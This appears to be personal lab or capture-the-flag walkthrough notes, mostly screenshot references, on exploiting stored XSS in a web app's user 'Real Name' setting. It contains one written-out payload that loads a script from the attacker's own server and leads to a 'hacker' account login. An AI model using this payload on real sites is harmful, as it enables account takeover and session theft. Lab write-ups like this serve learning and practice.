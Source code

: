 ![[Pasted image 20240813223214.png]]

then login then go to the top right user icon 

![[Pasted image 20240813223312.png]]

u should see this 

![[Pasted image 20240813223348.png]]

We have XSS here now 

Now to exploit from the text file copy the javascript code and save to a .js file called exploit.js

like this 

![[Pasted image 20240813223516.png]]

Now start a python server like this 

![[Pasted image 20240813223554.png]]

Here u might need to create a new user if u have problem changing the settings for this test1 user

For me it works so im gonna move forward

First go to the Tasklist -> Bug Report 
Then at the bottom add a comment i wrote this 

![[Pasted image 20240813223902.png]]

Now we are gonna edit the user setting for this exploit.js

```
"><script src="http://192.168.110.64/script.js"></script>
```

Add this in the Real Name then hit update settings 

![[Pasted image 20240813224118.png]]

Wait a minute or two to see it ping our python server 

Got it 

![[Pasted image 20240813224328.png]]

Now logout then login using `hacker:12345678` creds 

>[!Warning]
>Fair Warning here 
>If this doesnt work for you immediately make another account and do this again 
>and if that doesnt work then change the script.js to exploit.js 
>and change the real name again to point to exploit.js (this one worked for me)


we have this 
